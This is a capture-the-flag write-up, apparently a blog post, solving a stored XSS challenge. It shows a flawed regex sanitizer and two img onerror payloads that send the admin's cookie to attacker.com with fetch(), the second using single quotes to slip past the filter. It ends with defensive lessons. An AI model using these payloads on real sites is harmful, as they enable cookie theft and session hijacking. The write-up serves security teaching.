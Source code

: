 ```yaml
---
title: "Web Challenge XSS"
date: "2025-03-15"
ctf: "ExampleCTF 2025"
category: "web"
difficulty: "Medium"
points: 150
tags: ["web", "xss", "javascript"]
author: "Tham Le"
solved: true
---
```


# Web Challenge XSS Writeup

## Challenge Description

The website allows users to submit comments that are displayed to administrators. Your goal is to steal the admin's cookie.

## Analysis

The website filters many common XSS payloads but has a vulnerability in how it handles image tags.

![Screenshot of the vulnerable website](images/xss-website.png)

## Exploitation

By analyzing the source code, I found that the site uses a custom sanitization function:

```javascript
function sanitize(input) {
  // Remove script tags
  input = input.replace(/<script.*?>.*?<\/script>/gi, '');
  // Allow some tags but remove event handlers
  input = input.replace(/on\w+=".*?"/gi, '');
  return input;
}
```

However, this function doesn't handle all cases. I created the following payload:

```html
<img src="x" onerror="fetch('https://attacker.com/'+document.cookie)">
```

The sanitizer only matches double quotes for attributes but not single quotes, so I modified it to:

```html
<img src="x" onerror='fetch("https://attacker.com/"+document.cookie)'>
```

## Solution

After submitting the payload, I received the admin's cookie at my server:

![Cookie capture](images/cookie-capture.png)

Using this cookie, I was able to authenticate as the admin and retrieve the flag: `flag{xss_byp4ss_m4st3r}`

## Lessons Learned

1. Always validate and sanitize user input thoroughly
2. Use proper context-aware sanitization libraries
3. Consider implementing a Content Security Policy
4. Avoid storing sensitive information in cookies when possible
